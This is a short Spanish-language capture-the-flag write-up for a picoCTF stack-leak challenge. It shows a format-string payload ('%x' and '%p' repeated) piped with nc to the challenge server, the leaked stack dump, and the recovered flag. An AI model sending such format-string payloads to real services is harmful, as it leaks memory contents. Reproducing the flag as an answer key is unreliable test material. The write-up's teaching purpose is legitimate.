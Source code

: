 ## Objetivo 

Story telling class 1/2

Additional details will be available after launching your challenge instance.

## Solución  

```JAVA
┌──(kali㉿kali)-[~/Downloads/flagLeak]
└─$ python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 54798
saturn.picoctf.net [13.59.203.175] 54798 (?) : Connection refused
┌──(kali㉿kali)-[~/Downloads/flagLeak]
└─$ python3 -c 'print("%x"*60)' | nc saturn.picoctf.net 63553
Tell me a story and then I'll tell you one >> Here's a story - 
ffd5f470ffd5f4908049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825f0108d00eff8dab06f6369707b4654436b34334c5f676e3167346c466666305f3474535f315f6b63623261317d613235fbad200088ffb9000f0144990804c00080494100804c000ffd5f55880494182ffd5f604ffd5f6100ffd5f570
```



abrimos la terminal de python, y escribimos un print ("%p" *120)

```java

┌──(kali㉿kali)-[~/Downloads/flagLeak]
└─$ python3                    
Python 3.11.9 (main, Apr 10 2024, 13:16:36) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> print ("%p" *120)
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
>>> exit()
---------------------------------------------------

```


creamos un archivo donde ingresamos un código el cual hará que nos acomode la bandera

```java 
┌──(kali㉿kali)-[~/Downloads/flagLeak]
└─$ nano flag.py               

┌──(kali㉿kali)-[~/Downloads/flagLeak]
└─$ python3 flag.py
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}û

```


**picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}**


## Notas Adicionales 

### Referencias